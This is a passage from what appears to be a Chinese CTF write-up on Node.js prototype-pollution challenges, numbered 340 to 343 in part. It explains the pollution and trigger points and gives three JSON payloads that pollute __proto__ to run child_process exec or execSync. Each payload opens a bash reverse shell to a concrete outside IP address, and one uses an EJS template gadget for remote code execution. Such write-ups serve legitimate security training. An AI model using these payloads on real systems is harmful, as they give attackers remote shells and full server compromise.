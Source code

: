访问一下调用渲染，反弹shell

![](https://img-blog.csdnimg.cn/2579f751f6ce46a5aea6904d6941960a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
## 预期解
![](https://img-blog.csdnimg.cn/30a7f61ce2ea49fe880d85e058c8ae53.png#pic_center)

污染query参数 再利用Function反弹shell

![](https://img-blog.csdnimg.cn/7d16a01eb0db4113a10b96eccdff01bf.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_18,color_FFFFFF,t_70,g_se,x_16#pic_center)

污染点在user 触发点在query

/login下污染query

![](https://img-blog.csdnimg.cn/88f5229927f14d04a6670833c2047d32.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)/api下触发query

![](https://img-blog.csdnimg.cn/8f67e3c19e7044628d88aea697593b86.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

Payload：

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/150.158.181.145/2334 0>&1\"')"}}
```

# 340
触发点还是query
但是污染点不一样了

![](https://img-blog.csdnimg.cn/c2dd7c1ec8174d7f89b6bc2cbca79af8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_16,color_FFFFFF,t_70,g_se,x_16#pic_center)

user.userinfo向上污染两级才是Object对象

payload：
```
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/150.158.181.145/2334 0>&1\"')"}}}
```

# 341
没了api 那就用ejs的rce

# 342-343
具体过程分析参考前言模板rce

payload:
```
{"__proto__":{"__proto__":{"type":"Code","self":1,"line":"global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/150.158.181.145/2333 0>&1\"')"}}}
```
`content-type要改为application/json`

